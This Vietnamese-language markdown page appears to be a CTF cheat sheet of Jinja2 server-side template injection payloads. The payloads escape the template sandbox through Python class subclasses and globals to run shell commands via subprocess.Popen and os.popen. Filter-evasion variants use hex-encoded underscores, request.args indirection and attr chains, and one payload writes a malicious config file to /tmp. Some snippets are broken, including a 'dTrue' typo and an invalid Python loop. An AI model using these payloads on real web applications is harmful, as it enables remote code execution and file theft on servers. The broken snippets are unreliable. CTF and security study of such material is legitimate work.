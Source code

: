 # Jinja2 (python)


## 1. Chạy payload tìm <class ‘subprocess.Popen’> in subclasses 

`__subclasses__` là một thuộc tính nhằm liệt kê tất cả các weak references trong các lớp con của nó 

```py
{{''.__class__.mro()[1].__subclasses__()}}
```

### filter
```py
{{()|attr(‘\x5f\x5fclass\x5f\x5f’)|attr(‘\x5f\x5fbase\x5f\x5f’)|attr(‘\x5f\x5fsubclasses\x5f\x5f’)()}}
```

## 2. Tìm vị trí subprocess.Popen thủ công
```py
{{''.__class__.__mro__[1].__subclasses__()[200:]}}
```
## 3. Chạy code tìm "subprocess.Popen" xuất hiện ở index coppy paste kq in ra vào file lol.txt
```py
with open('lol.txt') as p:
    check = p.read()
for (index,value in enumerate(check.split(','))):
    if ("<class 'subprocess.Popen'>" in value):
        print(index)
```

## 4. Thay số index hiện ra vào [] //vd 258 nếu [] bị filter =>__getitem__ 
```py
{{ ''.__class__.__mro__[1].__subclasses__()[408]('ls -la',shell=True,stdout=-1).communicate()[0].strip() }}
```

### filter
```py
{{()|attr(request.args.c)|attr(request.args.b)|attr(request.args.s)()|attr(request.args.g)(258)('ls',shell=True,stdout=-1)|attr('communicate')()|attr(request.args.g)(0)|attr('decode')('utf-8')}}&c=__class__&b=__base__&s=__subclasses__&g=__getitem__

{{''[request.args.a][request.args.b][2][request.args.c]()[408]('cat+flag.txt',shell=dTrue,stdout=-1).communicate()[0].strip()}}&a=__class__&b=__mro__&c=__subclasses__
```

## 1 Số payload khác
```py
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}

{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}

{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

{{request.application.__globals__.__builtins__.__import__('os')['popen']('ls')['read']()}}

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

{{(''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(132)|attr('__init__')|attr('__globals__')|attr('__getitem__')('popen'))('cat+flag.txt').read()}}


```

## FILTER GLOBALS
```py
// lọc từ .__globals__ => hexa_encode thành ['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f'] 

["__globa""ls__"]

|attr('\x5f\x5fg\x6co\x62a\x6cs\x5f\x5f')

|attr('popen')('cat flag.txt')|attr('read')()}}

{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}  

{{self._TemplateReference__context.cycler.__init__['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f'].os.popen('ls').read() }} 
```

## FILTER _
```py
//lọc _ ở trc class 
{{()|attr(request.args.c)}}&c=__class__
{{request.application.__globals__.__builtins__.__import__('os')['popen']('ls')['read']()}}

{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}}

{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']('ls')['read']()}}

```

## FILTER [ ]

![filter](https://github.com/tinasahara1/Vulnerable-CTF-/blob/cf0bd6546f72ef8b4e95df70e96dd684f4c8bbad/SQL/MySQL/image/filter.png)

